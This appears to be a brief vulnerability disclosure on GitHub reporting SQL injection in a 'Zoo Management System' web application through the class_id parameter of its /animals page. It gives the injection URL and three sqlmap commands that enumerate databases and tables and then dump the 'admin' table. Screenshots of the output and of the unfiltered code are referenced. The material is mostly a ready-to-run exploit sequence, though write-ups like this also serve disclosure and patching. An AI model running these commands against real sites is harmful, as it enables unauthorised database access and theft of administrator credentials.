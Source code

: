 # Zoo Management System SQL Injection
* `Description` => sql injection at `/animals?class_id=1`
* `Injection Point`
```python
http://192.168.1.101:8080/ZooManagementSystem/public_html/animals?class_id=1
```
# Exploit 
* Exploit with Sqlmap
```python
python3 sqlmap.py -u http://192.168.1.101:8080/ZooManagementSystem/public_html/animals?class_id=1 -dbs
```
![image](https://user-images.githubusercontent.com/79050415/159439336-75bb1798-ade3-471e-8b31-310d469f246c.png)

```python
python3 sqlmap.py -u http://192.168.1.101:8080/ZooManagementSystem/public_html/animals?class_id=1 -tables -D zoomanagement
```
![image](https://user-images.githubusercontent.com/79050415/159439476-4214e107-398d-4784-b3b0-6f15cf6e5980.png)
```python
python3 sqlmap.py -u http://192.168.1.101:8080/ZooManagementSystem/public_html/animals?class_id=1 -columns -D zoomanagement -T admin -dump
```
![image](https://user-images.githubusercontent.com/79050415/159439627-7e2e641c-92a2-41b1-bb72-f1d0af7d5f5e.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159439977-c2c43e07-fa81-4b93-b9da-3d18866c1d04.png)
* No filter `class_id`  when inserting data to database
